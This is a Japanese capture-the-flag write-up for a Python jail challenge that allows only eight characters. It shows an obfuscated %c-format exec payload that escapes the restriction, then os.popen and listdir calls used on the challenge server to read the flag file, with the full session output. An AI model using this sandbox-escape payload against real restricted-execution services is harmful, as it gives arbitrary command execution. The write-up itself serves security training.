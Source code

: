 # python8:Misc

$ python8

`nc 160.251.183.149 3838`

Attachment\
[python8.zip](https://github.com/colza12/ctf_writeup/blob/main/SatokiCTF/Misc/python8/python8.zip)

Difficulty Level : medium\
Point : 300

# Solution
添付ファイルを見てみると、使える文字が`0'()%cex`だけに制限されていた。\
Python8は未来すぎて使える文字が8文字しかないらしい。\
使える文字からして、明らかに`exec`と`%c`を使えとのことだろう。\
`exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))`が使えるという情報を頂いたのでそのまま使わせていただきました。(この部分はどうしても分からなかった...)\
python8.pyを実行して上記コードを投げると、任意の関数を実行できるようになる。(上記コードの解析依頼をChatGPT君に投げたら、バグりかけて途中で停止し正常動作に戻ったのはすごかった。さすがです。)\
`ls`、`cd`、`cat`を使ってflagを探したいが、これはLinuxではなくPythonなので、コマンドをそれぞれ置き換える。
```python
ls = import os as o; print('\n'.join(o.listdir('.')))
cd = import os as o; o.chdir('..')
cat = import os as o; print(o.popen('cat flag.txt').read())
```
上記コードを使ってディレクトリのどこかにあるflagを探索していく。
```
$ nc 160.251.183.149 3838
Python 8.26.1997 (main, Aug 26 2997, 00:00:00) [SatoCompiler 1.0.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os as o; print('\n'.join(o.listdir('.')))
run
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os as o; o.chdir('..')
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os as o; print('\n'.join(o.listdir('.')))
app
var
home
sys
srv
usr
opt
mnt
bin
etc
media
dev
flag-31ac9361857cf0098f093447acbbd315.txt
proc
sbin
lib
lib64
root
boot
run
tmp
>>> exec((((('exec(%%%%%%%%%%%%%%%%c%%%%%%%%c%%%%c%%c%c())'%(0xe00%0xcc))%(0xeccce0%0xcecc))%(0xeec%0xce))%(0xeeee%0xc0))%(0xc0cecce%0xe0cc))
import os as o; print(o.popen('cat flag-31ac9361857cf0098f093447acbbd315.txt').read())
flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}
```
flagが得られた。

`flag{1_pr0b4bly_w0n7_b3_4l1v3_by_7h3_71m3_py7h0n_r34ch35_v3r510n_8}`

